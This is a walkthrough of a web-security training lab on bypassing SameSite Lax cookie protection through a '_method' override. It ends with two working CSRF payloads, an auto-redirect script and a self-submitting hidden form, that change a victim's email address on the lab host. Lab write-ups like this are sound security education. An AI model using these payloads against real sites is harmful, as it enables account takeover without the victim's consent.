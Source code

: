 Title: SameSite Lax bypass via method override
Level: PRACTITIONER
Desc:  This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:
session cookie don't have SameSite flag so it is by default Lax.

The request to change email is like that: 
<img width="1116" height="388" alt="image" src="https://github.com/user-attachments/assets/d11b5395-1507-4f1c-8bc2-3fe749caaa8f" />
So it doesn't use csrf token, only protection here is cookie with Lax policy.

Lax policy states, that cookie will be added to requests with get method, so I try get method: 
<img width="1069" height="414" alt="image" src="https://github.com/user-attachments/assets/1c6a3788-b170-484b-b260-562c51e51aeb" />

Method not allowed. 

I tried to change method from POST to GET by using _method parameter:
<img width="935" height="426" alt="image" src="https://github.com/user-attachments/assets/b537c186-2db0-4927-b7f0-4c83fc4777a1" />
It worked!

Crafting exploit:
```
<script>
    document.location = "https://0a63007e03d0bc8d805117e600d700cb.web-security-academy.net/my-account/change-email?email=en22er%40normal-user.net&_method=POST";
</script>
```

Also it works:
```
<form action="https://0a63007e03d0bc8d805117e600d700cb.web-security-academy.net/my-account/change-email" method="GET">
    <input type="hidden" name="_method" value="POST">
    <input type="hidden" name="email" value="test321@normal-user.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
